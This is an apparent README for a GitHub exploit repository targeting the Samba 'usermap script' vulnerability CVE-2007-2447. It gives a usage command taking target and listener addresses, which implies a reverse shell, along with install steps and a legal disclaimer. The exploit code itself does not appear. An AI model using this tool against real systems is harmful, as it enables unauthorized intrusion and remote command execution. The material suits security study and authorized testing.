 CVE-2007-2447
====

CVE-2007-2447 - Samba usermap script.
</br>
https://amriunix.com/post/cve-2007-2447-samba-usermap-script/

## Usage:
```shell
$ python usermap_script.py <RHOST> <RPORT> <LHOST> <LPORT>
```
  * `RHOST` -- The target address
  * `RPORT` -- The target port (TCP : 139)
  * `LHOST` -- The listen address
  * `LPORT` -- The listen port

## Installation

    sudo apt install python python-pip
    pip install --user pysmb
    git clone https://github.com/amriunix/CVE-2007-2447.git

### Disclaimer:

All the code provided on this repository is for educational/research purposes only. Any actions and/or activities related to the material contained within this repository is solely your responsibility. The misuse of the code in this repository can result in criminal charges brought against the persons in question. Author will not be held responsible in the event any criminal charges be brought against any individuals misusing the code in this repository to break the law.

